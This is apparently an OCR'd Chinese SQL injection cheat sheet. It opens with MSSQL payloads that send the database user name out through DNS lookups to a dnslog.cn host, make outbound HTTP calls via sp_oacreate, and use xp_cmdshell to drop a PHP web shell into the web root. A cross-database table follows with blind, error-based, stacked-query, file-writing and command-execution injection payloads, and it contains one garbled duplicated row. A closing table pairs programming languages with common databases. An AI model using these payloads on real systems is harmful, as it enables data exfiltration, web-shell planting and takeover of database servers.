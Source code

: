 
| 数据库    | 外带方式     | 核心函数 / 技术         | 示例 Payload                                                 | 说明与限制                                       |
| --------- | ------------ | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------ |
| **MSSQL** | DNS 外带     | `xp_dirtree`            | ```sql<br>EXEC master..xp_dirtree '\\\\' + (SELECT user_name()) + '.x.dnslog.cn\\abc';<br>``` | ✅ DNSLog 平台可收信号；兼容性好，经典技巧        |
|           | HTTP 外带    | `sp_oacreate` + WinHTTP | ```sql<br>DECLARE @o INT;<br>EXEC sp_oacreate 'MSXML2.XMLHTTP', @o OUT;<br>EXEC sp_oamethod @o, 'open', NULL, 'GET','http://x.dnslog.cn', false;<br>EXEC sp_oamethod @o, 'send';<br>``` | ⚠️ OLE 自动化必须开启；高权限才可使用             |
|           | 文件写入落地 | `bcp` / `xp_cmdshell`   | ```sql<br>EXEC xp_cmdshell 'echo ^<%php system($_GET["cmd"]); ?^> > C:\\inetpub\\wwwroot\\shell.php';<br>``` | ⚠️ 需开启 xp_cmdshell，高危指令，常用于提权或打点 |

### 3. 不同数据库在sqli的差异

| 操作类型         | MySQL                                        | PostgreSQL                                          | MSSQL                                     | Oracle                                                       |
| ---------------- | -------------------------------------------- | --------------------------------------------------- | ----------------------------------------- | ------------------------------------------------------------ |
| **单引号闭合**   | `' OR '1'='1`                                | `' OR '1'='1`                                       | `' OR '1'='1`                             | `' OR '1'='1`                                                |
| **字符串拼接**   | `'abc' + 'def'` ❌<br>`CONCAT('abc','def')` ✅ | `'abc' || 'def'` ✅                                  | `'abc' + 'def'` ✅                         | `'abc' || 'def'` ✅                                           |
| **单行注释**     | `--+` / `#`                                  | `--`                                                | `--`                                      | `--`                                                         |
| **多行注释**     | `/* comment */`                              | `/* comment */`                                     | `/* comment */`                           | `/* comment */`                                              |
| **获取数据库**   | `SELECT database()`                          | `SELECT current_database()`                         | `SELECT db_name()`                        | `SELECT ora_database_name FROM dual`                         |
| **获取用户**     | `SELECT user()`                              | `SELECT current_user`                               | `SELECT SYSTEM_USER`                      | `SELECT user FROM dual`                                      |
| **获取表名**     | `information_schema.tables`                  | `information_schema.tables`                         | `information_schema.tables`               | `ALL_TABLES` / `USER_TABLES`                                 |
| **时间延迟注入** | `SLEEP(5)`                                   | `pg_sleep(5)`                                       | `WAITFOR DELAY '0:0:5'`                   | `dbms_lock.sleep(5)`                                         |
| **报错注入函数** | `UPDATEXML(1,concat(1,(SELECT user())),1)`   | `CAST((SELECT current_user) AS INT)` ⚠️              | `CONVERT(INT, (SELECT SYSTEM_USER))` ⚠️    | `EXTRACTVALUE(XMLTYPE(...))` / `UTL_INADDR` ⚠️                |
| **盲注判断 IF**  | `IF(condition, true, false)`                 | `CASE WHEN condition THEN 1 ELSE 0 END`             | `IIF(condition, true, false)`             | `CASE WHEN condition THEN 1 ELSE 0 END`                      |
| **布尔盲注样例** | `' AND 1=1 --+`<br>`' AND 1=2 --+`           | 同左                                                | 同左                                      | 同左                                                         |
| **时间盲注样例** | `' AND IF(1=1, SLEEP(5), 0)--+`              | `' AND CASE WHEN 1=1 THEN pg_sleep(5) ELSE 0 END--` | `' IF (1=1) WAITFOR DELAY '0:0:5'--`      | `' AND CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE 0 END FROM dual` |
| **堆叠注入支持** | ✅（默认支持）                                | ✅（默认支持）                                       | ✅（默认支持）                             | ❌（不支持多语句，需要绕过，如 `dbms_scheduler`）             |
| **写文件**       | `SELECT 'data' INTO OUTFILE '/tmp/a.txt'`    | `COPY table TO '/tmp/a.txt'`                        | `EXEC xp_cmdshell 'echo abc > C:\\a.txt'` | `UTL_FILE.PUT_LINE`（需开启权限）                            |
| **执行系统命令** | 需上传 UDF 插件                              | `COPY ... TO PROGRAM 'cmd'`（需高权限）             | `xp_cmdshell` / `sp_oacreate`             | 通过调度器 `dbms_scheduler.create_job` 等实现                |
| 注样例**         | `' AND IF(1=1, SLEEP(5), 0)--+`              | `' AND CASE WHEN 1=1 THEN pg_sleep(5) ELSE 0 END--` | `' IF (1=1) WAITFOR DELAY '0:0:5'--`      | `' AND CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE 0 END FROM dual` |

### 4. 语言常见搭配的数据库

| 编程语言                 | 常见搭配的数据库                   | 说明                                                         |
| ------------------------ | ---------------------------------- | ------------------------------------------------------------ |
| **Python**               | PostgreSQL, MySQL, SQLite, MongoDB | Django 默认使用 PostgreSQL；Flask 常配合 SQLite 或 PostgreSQL |
| **JavaScript / Node.js** | MongoDB, PostgreSQL, MySQL         | Express + MongoDB 是全栈流行组合；也常用 Sequelize + PostgreSQL |
| **Java**                 | MySQL, PostgreSQL, Oracle, MongoDB | Spring Boot 中 PostgreSQL 越来越受欢迎                       |
| **Go (Golang)**          | PostgreSQL, MySQL, SQLite          | 在高性能服务中常用 PostgreSQL，配合 GORM、pgx 等 ORM         |
| **PHP**                  | MySQL, PostgreSQL                  | Laravel 支持多种数据库，MySQL 为主，PostgreSQL 使用逐渐增加  |
| **Ruby**                 | PostgreSQL, SQLite, MySQL          | Ruby on Rails 推荐使用 PostgreSQL                            |